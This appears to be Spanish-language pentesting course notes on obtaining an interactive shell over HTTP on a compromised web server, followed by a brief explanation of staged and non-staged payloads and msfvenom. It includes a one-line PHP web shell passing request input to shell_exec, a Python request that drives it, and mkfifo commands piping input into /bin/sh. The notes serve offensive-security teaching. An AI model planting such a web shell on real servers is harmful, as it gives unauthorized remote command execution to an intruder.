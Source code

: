 En ocasiones cuando comprometemos un servidor web, hay reglas configuradas (Ej: iptables) que nos impiden obtener una Reverse Shell vía Netcat, Python, u otra utilidad.

Con esta herramienta, evitamos tener que hacer uso de una reverse shell para obtener una TTY posteriormente completamente interactiva. A través de archivos 'mkfifo', jugamos para simular una TTY interactiva sobre HTTP, logrando manejarnos sobre el sistema cómodamente sin ningún tipo de problema.

Lo único que necesitamos, es subir al servidor comprometido una estructura PHP como la siguiente para ejecutar comandos:

<?php
	echo shell_exec($_REQUEST['cmd']);
?>
Una vez subido, simplemente ejecutamos el script (Es necesario cambiar la ruta en el script donde se sitúa nuestro script PHP alojado en el servidor vulnerado).

Tras su ejecución, se muestra un ejemplo de su utilidad:



https://github.com/s4vitar/ttyoverhttp


**Cambiar el nombre del archivo**

index.php  --> cmd.php

	result = (requests.get('http://127.0.0.1/index.php', params=payload, timeout=5).text).strip()




mkfifo input; tail -f input | /bin/sh 2>&1 > output

echo "whoami" > input

cat output



# Tipos de payloads (Staged y Non-Staged)

En esta clase, veremos los dos tipos de payloads utilizados en ataques informáticos: Staged y Non-Staged.

- Payload Staged: Es un tipo de payload que se divide en dos o más etapas. La primera etapa es una pequeña parte del código que se envía al objetivo, cuyo propósito es establecer una conexión segura entre el atacante y la máquina objetivo. Una vez que se establece la conexión, el atacante envía la segunda etapa del payload, que es la carga útil real del ataque. Este enfoque permite a los atacantes sortear medidas de seguridad adicionales, ya que la carga útil real no se envía hasta que se establece una conexión segura.




## msfvenom

**msfvenom es técnicamente parte del marco de Metasploit, sin embargo, se envía como una herramienta independiente. msfvenom se usa para generar cargas útiles en la marcha.**

